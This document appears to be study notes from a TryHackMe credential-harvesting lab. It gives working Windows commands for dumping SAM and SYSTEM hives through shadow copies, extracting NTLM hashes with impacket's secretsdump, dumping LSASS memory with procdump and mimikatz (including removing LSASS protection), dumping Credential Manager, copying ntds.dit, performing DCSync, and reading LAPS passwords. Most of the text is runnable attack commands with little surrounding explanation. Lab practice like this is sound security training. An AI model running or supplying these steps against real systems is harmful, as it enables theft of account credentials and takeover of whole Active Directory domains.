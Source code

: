 # Credentials Harvesting

## Credential Access

Check the history of powershell commands`C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Run 
<pre>reg query HKCU /f password /t REG_SZ /s</pre>
or
<pre>reg query HKLM /f password /t REG_SZ /s</pre>

For enumeration of enviroment 
<pre>Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description</pre>

## Local Windows Credentials

### Volume Shadow Copy Service

1. Run the standard cmd.exe prompt with administrator privileges.
2. Execute the wmic command to create a copy shadow of C: drive
3. Verify the creation from step 2 is available.
4. Copy the SAM database from the volume we created in step 2

run cmd with administrative privilages
<pre> shadowcopy call create Volume='C:\' </pre>

<pre> vssadmin list shadows </pre>

<pre>
...
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
...
</pre>

<pre> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam 

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
</pre>

<pre>
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg

reg save HKLM\system C:\users\Administrator\Desktop\system-reg
</pre>

than move the `sam-reg` and `system-reg` files to your attack box and run this script to extract NTLM hash.
<pre>
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL </pre>

## Local Security Authority Subsystem Service

Lass is the process that verifies login and etc. When we have administrator privilages we can dump the process memory of LSASS.

Find the LSASS process in task manager in Details tab and create dump file by right clicking. And copy it to Mimikatz file `C:\Tools\Mimikatz\lsass.DMP`

or

use procdump.exe
<pre>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump</pre>

than use mimikatz.exe 
<pre>
privilege::debug

sekurlsa::logonpasswords
</pre>

### Protected LSASS 
`ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)`

<pre>
!+

!processprotect /process:lsass.exe /remove</pre>


## Windows Credential Manager

This stores credentials

cmd
<pre>vaultcmd /list</pre>

Than we can check if its somethink stored here using `/listproperties`

<pre>VaultCmd /listproperties:"Web Credentials"</pre>

than we can try get more info

<pre>VaultCmd /listcreds:"Web Credentials"</pre>

To dump it run powershell 
<pre> powershell -ex bypass</pre>

<pre>
Import-Module C:\Tools\Get-WebCredentials.ps1

Get-WebCredentials
</pre>

### RunAs
cmd
<pre> cmdkey /list</pre>

<pre>
...
User: thm.red\thm-local
...
</pre>

<pre>unas /savecred /user:THM.red\thm-local cmd.exe</pre>

## Domain Controller

New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc. The NTDS.

To successfully dump the content of the NTDS file we need the following files:

    C:\Windows\NTDS\ntds.dit
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY

cmd, dump ntds file into \temp directory
<pre>powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"</pre>

<pre> python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local</pre>

## Remote Dumping (With Credentials)

Now how to it remotly with credentials with administrator privilages

### DC Sync

<pre> python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/AD_Admin_User@10.10.208.97</pre>

You will get NTLM hashes

## Local Administrator Password Solution

First, we check if LAPS is installed in the target machine, which can be done by checking the `admpwd.dll` path.

THMorg is our target

<pre>dir "C:\Program Files\LAPS\CSE"

Get-Command *AdmPwd*

Find-AdmPwdExtendedRights -Identity THMorg
</pre>

<pre>ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}</pre>

<pre> net groups "LAPsReader"</pre>

<pre> Get-AdmPwdPassword -ComputerName creds-harvestin</pre>